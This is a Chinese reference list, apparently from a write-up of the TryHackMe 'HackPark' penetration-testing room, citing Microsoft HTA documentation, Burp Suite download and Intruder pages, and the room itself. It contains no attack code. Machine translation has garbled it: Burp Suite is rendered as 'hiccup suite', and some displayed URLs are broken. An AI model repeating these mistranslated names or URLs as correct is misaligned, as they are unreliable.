微软文档(2013)。 *HTA:申请要素| HTA:申请对象*。2022 年 5 月 13 日检索自:[https://docs . Microsoft . com/en-us/previous-versions/ms 536495(v = vs . 85)](https://docs.microsoft.com/en-us/previous-versions/ms536495(v=vs.85))

PortSwigger(未注明)。*打嗝套件社区版*。2022 年 5 月 8 日检索自:【https://portswigger.net/burp/communitydownload 

PortSwigger(未注明)。*攻击类型【打嗝套件入侵者】*。2022 年 5 月 8 日检索自:[https://ports wigger . net/burp/documentation/desktop/tools/intrusor/attack-types](https://portswigger.net/burp/documentation/desktop/tools/intruder/attack-types)

《tryhackme》(2019)。 *HackPark* 。TryHackMe。2022 年 5 月 7 日检索自:[https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)